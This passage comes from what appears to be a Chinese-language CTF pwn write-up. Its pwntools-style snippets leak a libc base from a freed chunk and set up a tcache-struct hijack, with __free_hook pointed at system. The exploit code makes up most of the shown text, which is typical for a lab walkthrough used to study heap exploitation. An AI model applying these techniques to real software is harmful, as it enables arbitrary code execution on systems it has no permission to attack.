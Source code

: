 ```bash
add(1,0x450,"\n")
add(2,0x450,"\n")

free(0)
recover(0)
show(0)

ru("Pwd is: ")
libc_base = (u64(r(8)) ^ key) - (0x7f4eed4e1b80-0x7f4eed2f5000) - 106
leak("base = ",libc_base)
```

将 chunk 0 放入 largebin 中

```bash
add(3,0x600,"\n")
```

Tcache Struct 劫持的准备：

```bash
mp_ = libc_base + 0x1EC280 
leak("mp_ = ",mp_)

#bins = mp_ + 80
#max = mp_ + 88
tcache_max_bins = mp_+80

free_hook =  libc_base+libc.sym["__free_hook"]
system =  libc_base+libc.sym["system"]
```

[![](assets/1700442753-d61aa81e373e98ba839b24cde1bb547f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117185451-bb831a7c-8537-1.png)

```bash
free(2)
recover(2)
#将 chunk 2 放入 unsorted bin 中
```
